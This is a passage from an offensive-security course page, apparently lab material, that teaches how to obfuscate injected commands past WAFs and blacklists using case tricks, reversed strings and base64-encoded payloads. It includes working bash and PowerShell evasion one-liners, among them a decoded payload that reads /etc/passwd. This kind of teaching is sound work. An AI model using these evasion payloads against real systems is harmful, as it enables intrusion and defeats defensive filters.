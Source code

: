 # Advanced Command Obfuscation

In some instances, we may be dealing with advanced filtering solutions, like Web Application Firewalls (WAFs), and basic evasion techniques may not necessarily work. We can utilize more advanced techniques for such occasions, which make detecting the injected commands much less likely.

***

## Case Manipulation

One command obfuscation technique we can use is case manipulation, like inverting the character cases of a command (e.g. `WHOAMI`) or alternating between cases (e.g. `WhOaMi`). This usually works because a command blacklist may not check for different case variations of a single word, as Linux systems are case-sensitive.

If we are dealing with a Windows server, we can change the casing of the characters of the command and send it. In Windows, commands for PowerShell and CMD are case-insensitive, meaning they will execute the command regardless of what case it is written in:

```powershell
PS C:\htb> WhOaMi

21y4d
```

However, when it comes to Linux and a bash shell, which are case-sensitive, as mentioned earlier, we have to get a bit creative and find a command that turns the command into an all-lowercase word. One working command we can use is the following:

```shell-session
$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```

As we can see, the command did work, even though the word we provided was (`WhOaMi`). This command uses `tr` to replace all upper-case characters with lower-case characters, which results in an all lower-case character command. However, if we try to use the above command with the `Host Checker` web application, we will see that it still gets blocked:

### **Burp POST Request**

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

`Can you guess why?` It is because the command above contains spaces, which is a filtered character in our web application, as we have seen before. So, with such techniques, `we must always be sure not to use any filtered characters`, otherwise our requests will fail, and we may think the techniques failed to work.

Once we replace the spaces with tabs (`%09`), we see that the command works perfectly:

### **Burp POST Request**

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There are many other commands we may use for the same purpose, like the following:

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

{% hint style="success" %}
**Exercise:** Can you test the above command to see if it works on your Linux VM, and then try to avoid using filtered characters to get it working on the web application?
{% endhint %}

***

## Reversed Commands

Another command obfuscation technique we will discuss is reversing commands and having a command template that switches them back and executes them in real-time. In this case, we will be writing `imaohw` instead of `whoami` to avoid triggering the blacklisted command.

We can get creative with such techniques and create our own Linux/Windows commands that eventually execute the command without ever containing the actual command words. First, we'd have to get the reversed string of our command in our terminal, as follows:

```shell-session
$ echo 'whoami' | rev
imaohw
```

Then, we can execute the original command by reversing it back in a sub-shell (`$()`), as follows:

```shell-session
$ $(rev<<<'imaohw')

21y4d
```

We see that even though the command does not contain the actual `whoami` word, it does work the same and provides the expected output. We can also test this command with our exercise, and it indeed works:

### **Burp POST Request**

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
**Tip:** If you wanted to bypass a character filter with the above method, you'd have to reverse them as well, or include them when reversing the original command.
{% endhint %}

The same can be applied in `Windows.` We can first reverse a string, as follows:

```powershell
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```

We can now use the below command to execute a reversed string with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

***

## Encoded Commands

The final technique we will discuss is helpful for commands containing filtered characters or characters that may be URL-decoded by the server. This may allow for the command to get messed up by the time it reaches the shell and eventually fails to execute. Instead of copying an existing command online, we will try to create our own unique obfuscation command this time. This way, it is much less likely to be denied by a filter or a WAF. The command we create will be unique to each case, depending on what characters are allowed and the level of security on the server.

We can utilize various encoding tools, like `base64` (for b64 encoding) or `xxd` (for hex encoding). Let's take `base64` as an example. First, we'll encode the payload we want to execute (which includes filtered characters):

```shell-session
$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Now we can create a command that will decode the encoded string in a sub-shell (`$()`), and then pass it to `bash` to be executed (i.e. `bash<<<`), as follows:

```shell-session
$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

As we can see, the above command executes the command perfectly. We did not include any filtered characters and avoided encoded characters that may lead the command to fail to execute.

{% hint style="info" %}
**Tip:** Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.
{% endhint %}

Now we can use this command (once we replace the spaces) to execute the same command through command injection:

### **Burp POST Request**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Even if some commands were filtered, like `bash` or `base64`, we could bypass that filter with the techniques we discussed in the previous section (e.g., character insertion), or use other alternatives like `sh` for command execution and `openssl` for b64 decoding, or `xxd` for hex decoding.

We use the same technique with Windows as well. First, we need to base64 encode our string, as follows:

```powershell
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

We may also achieve the same thing on Linux, but we would have to convert the string from `utf-8` to `utf-16` before we `base64` it, as follows:

```shell-session
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```

Finally, we can decode the b64 string and execute it with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```

As we can see, we can get creative with `Bash` or `PowerShell` and create new bypassing and obfuscation methods that have not been used before, and hence are very likely to bypass filters and WAFs. Several tools can help us automatically obfuscate our commands, which we will discuss in the next section.

In addition to the techniques we discussed, we can utilize numerous other methods, like wildcards, regex, output redirection, integer expansion, and many others. We can find some such techniques on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion).
